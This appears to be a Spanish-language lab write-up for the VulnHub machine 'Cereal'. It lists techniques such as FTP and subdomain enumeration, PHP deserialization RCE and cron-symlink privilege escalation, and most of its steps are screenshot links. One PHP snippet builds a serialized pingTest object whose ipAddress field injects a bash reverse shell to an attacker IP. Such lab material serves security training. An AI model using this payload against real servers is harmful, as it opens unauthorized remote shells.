 [[Vulnhub]] [[Disiplinas.]]

![[Pasted image 20230727104520.png]]

---
Martes 25 de Julio del 2023 Mexico.
CDMX-Polanco
Valente Spiegel

![[Pasted image 20230727103950.png]]

---

### Habilidades. 

Enumeración FTP 
Hospedaje Virtual 
Enumeración de Subdominios 
Divulgación de Información - Descubrimiento de Archivos de Respaldo 
Ataque de Deserialización PHP [RCE] 
Enumeración de Tareas Programadas (pspy) 
Abuso de Tarea Programada (Chown Symlink) [Escalada de Privilegios]

### Certificaciones.

eWPT  
eCPPTv2

---
### Creación de directorios para espacio de trabajo.

Es importante crear directorios o espacios de trabajo específicos al resolver una máquina.
Al crear un directorio o espacio de trabajo dedicado para una máquina de VulnHub, puedes mantener ordenada toda la información relacionada con esa máquina en un solo lugar. Esto incluye archivos de configuración, resultados de escaneos, notas y cualquier otro dato relevante. Una estructura organizada facilita el seguimiento del progreso, el acceso rápido a la información y la revisión posterior de los pasos realizados.

```
mkdir Cereal && cd Cereal && mkdir {Scan,Content,Exploits,Evidencia} && ls && cd Scan
```
![[Pasted image 20230727104049.png]]

---

![[Pasted image 20230727105129.png]]

![[Pasted image 20230727105149.png]]
![[Pasted image 20230727105202.png]]

![[Pasted image 20230727110135.png]]

![[Pasted image 20230727110522.png]]

![[Pasted image 20230727110826.png]]
![[Pasted image 20230727110959.png]]
![[Pasted image 20230727111137.png]]

![[Pasted image 20230727111155.png]]
![[Pasted image 20230727112833.png]]
![[Pasted image 20230727112954.png]]

![[Pasted image 20230727113008.png]]

![[Pasted image 20230727113053.png]]

![[Pasted image 20230727113221.png]]
![[Pasted image 20230727113253.png]]

![[Pasted image 20230727114323.png]]

![[Pasted image 20230727132412.png]]

![[Pasted image 20230727132520.png]]

![[Pasted image 20230727132610.png]]

![[Pasted image 20230727133223.png]]

![[Pasted image 20230727133239.png]]

![[Pasted image 20230727134002.png]]
![[Pasted image 20230727145311.png]]

![[Pasted image 20230727145517.png]]

![[Pasted image 20230801112158.png]]

El código PHP que proporcionas parece tener la intención de serializar un objeto `pingTest` y luego imprimir el resultado codificado en URL. Sin embargo, hay un problema en la declaración de la propiedad `$ipAddress`. Parece que intentas ejecutar un comando de shell malicioso dentro de la propiedad, lo cual es una grave vulnerabilidad de seguridad.

El comando malicioso que se ha incluido en la propiedad `$ipAddress` es una forma de intentar obtener una shell inversa en el servidor objetivo. Es una práctica muy peligrosa e insegura, y no debería ser usada en ningún entorno, ya que podría ser utilizada para llevar a cabo ataques y acciones maliciosas.


<?php class pingTest { public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.153.129/443 0>&1'"; public $isValid = True; public $output = ""; } echo urlencode(serialize(new pingTest)); ?>


![[Pasted image 20230801115652.png]]

![[Pasted image 20230801115809.png]]




![[Pasted image 20230801120333.png]]

![[Pasted image 20230801120841.png]]

![[Pasted image 20230801120650.png]]





![[Pasted image 20230801121316.png]]

![[Pasted image 20230801121420.png]]

![[Pasted image 20230801121536.png]]

![[Pasted image 20230801122245.png]]

![[Pasted image 20230801122449.png]]

![[Pasted image 20230801125810.png]]

![[Pasted image 20230801130153.png]]

![[Pasted image 20230801130203.png]]

![[Pasted image 20230801130242.png]]
![[Pasted image 20230801130341.png]]


![[Pasted image 20230801133848.png]]


![[Pasted image 20230801133928.png]]

![[Pasted image 20230801134531.png]]




![[Pasted image 20230801134736.png]]

![[Pasted image 20230801134851.png]]


![[Pasted image 20230801134940.png]]


![[Pasted image 20230801135032.png]]






![[Pasted image 20230801135058.png]]


